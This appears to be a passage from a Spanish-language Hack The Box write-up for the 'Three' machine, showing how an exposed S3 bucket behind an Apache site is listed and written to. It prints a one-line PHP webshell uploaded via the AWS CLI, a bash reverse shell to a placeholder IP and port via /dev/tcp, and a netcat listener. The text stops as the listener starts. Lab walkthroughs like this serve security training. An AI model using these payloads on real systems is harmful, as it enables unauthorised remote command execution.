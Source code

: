 **[La documentación oficial de AWS s3](https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html)** indica que es posible usar `ls` para listar los buckets s3

![Three yw4rf](../../../assets/HTB/Three/three-16.png)

Con el comando `aws --endpoint-url http://s3.thetoppers.htb/ s3 ls`, le indico que quiero listar los **buckets S3** alojados en el servidor, y me devuelve: `thetoppers.htb`

![Three yw4rf](../../../assets/HTB/Three/three-17.png)

Con el comando `aws --endpoint-url http://s3.thetoppers.htb/ s3 ls s3://thetoppers.htb`, le indico que quiero listar el contenido del **bucket S3** `thetoppers.htb`

![Three yw4rf](../../../assets/HTB/Three/three-18.png)

Parece que los directorios `images/`, `.htaccess` y `index.php` son los archivos del sitio web Apache alojado en el puerto 80 descubierto en el escaneo. Por lo tanto, efectivamente Apache está utilizando este **bucket S3** como almacenamiento para el sitio web principal

**[La documentación oficial de AWS s3](https://docs.aws.amazon.com/cli/latest/reference/s3/cp.html)** indica que es posible copiar archivos del sistema local al **bucket s3**.

![Three yw4rf](../../../assets/HTB/Three/three-19.png)

Teniendo en cuenta que la página ejecuta **PHP**, es posible subir desde nuestro sistema local un archivo `.php` con el objetivo de obtener una **webshell**. Primero indicamos el contenido del archivo con `echo` y luego lo guardamos en el archivo `shell.php` con el comando: `echo '<?php system($_GET["cmd"]); ?>' > shell.php`, lo que nos permite ejecutar comandos del sistema operativo desde el servidor donde se aloja el archivo utilizando el parámetro `cmd` desde la URL:

- **`system()`**: Es una función de PHP que ejecuta un comando del sistema operativo y muestra su salida.
- **`$_GET["cmd"]`**: Recibe el valor del parámetro `cmd` de la URL o de una petición HTTP GET. Este valor se pasa directamente a la función `system()`.

Luego de crear el archivo, lo subimos al **bucket S3** con el comando `aws --endpoint-url http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

![Three yw4rf](../../../assets/HTB/Three/three-20.png)

Para comprobar que la **webshell** funciona correctamente, nos dirigimos directamente al archivo creado desde el sitio web y ejecutamos el comando `id` desde el cmd: `http://thetoppers.htb/shell.php?cmd=id`

![Three yw4rf](../../../assets/HTB/Three/three-21.png)

Como vemos, la **webshell** funcionó correctamente. Ahora podemos aprovechar esto para utilizar una **reverse shell**. Primero usamos `echo` para escribir el comando y guardarlo en el archivo `webshell.sh` con el comando: `echo "/bin/bash -i >& /dev/tcp/<DIRECCION IP>/<PUERTO> 0>&1" > webshell.sh`

![Three yw4rf](../../../assets/HTB/Three/three-22.png)

Nos ponemos en escucha con **Netcat**, en mi caso con el puerto 1717, utilizando el comando `nc -lvnp 1717`:
